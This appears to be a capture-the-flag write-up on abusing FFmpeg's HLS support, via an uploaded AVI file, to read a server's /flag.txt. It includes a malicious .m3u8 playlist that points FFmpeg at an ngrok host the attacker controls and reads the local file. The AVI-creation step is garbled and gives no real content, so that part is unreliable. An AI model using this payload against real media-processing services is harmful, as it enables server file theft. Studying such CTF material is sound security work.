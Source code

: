 
## Exploiting FFmpeg for Local File Read

### Step 1: Understanding HLS & FFmpeg Vulnerabilities

FFmpeg supports **HLS (HTTP Live Streaming)**, which allows referencing external media files. By injecting an HLS playlist into an uploaded video file, we can force the application to request arbitrary files, leading to **LFI (Local File Inclusion)**.

We can create an **AVI file** with an embedded HLS directive that tricks FFmpeg into reading local files.

### Step 2: Hosting a Malicious HLS Playlist

To exploit the LFI vulnerability, we need to **host a malicious `.m3u8` playlist** on our own server. This playlist will reference the target file (`/flag.txt`) and send its contents to our remote server.

**Malicious `header.m3u8` content:**

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://0.tcp.in.ngrok.io:13529/header.m3u8|subfile,,start,0,end,10000,,:/flag.txt
#EXT-X-ENDLIST
```

### Step 3: Creating & Uploading the Malicious AVI File

To trigger the exploit, we need to upload a video file that references our hosted HLS playlist.

1. **Create a malicious `.avi` file** with the following embedded HLS directives:

   ```
   HLS = HTTP LIVE STREAMING
   ```

2. **Upload the `.avi` file** to the target application.

3. Once the application processes the file, **FFmpeg will fetch our HLS playlist**, which in turn will read `/flag.txt` and send it to our server.

### Step 4: Capturing the Flag

On our server, we will receive a request containing the **contents of `/flag.txt`**, which likely holds the flag.

Example of the server output after a successful exploit:

![Screenshot](https://raw.githubusercontent.com/0xraminfosec/imagerepo/refs/heads/main/video3.png "chall")

---
